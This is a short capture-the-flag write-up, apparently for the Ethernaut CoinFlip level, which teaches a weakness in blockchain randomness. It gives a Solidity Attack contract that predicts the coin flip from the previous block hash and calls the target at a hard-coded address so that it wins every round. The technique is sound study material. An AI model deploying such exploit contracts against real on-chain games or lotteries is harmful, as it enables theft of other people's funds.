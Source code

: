 # Task :
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

# Solution :

We write another contract called Attack that always wins in the CoinFlip contract 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
  CoinFlip flip = CoinFlip(0xa98e328f61f046B4497FBA8A53a37D4e06d67Cdd);

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
  /**
  since it says side==_guess 
  we can use side as our parameter in the attack contract to get it right every single time*/
  
    flip.flip(side);
  }

}

```

Attack has all the calculations of CoinFlip but passes "side" as its parameter instead of "_guess" resulting in a win everytime its called
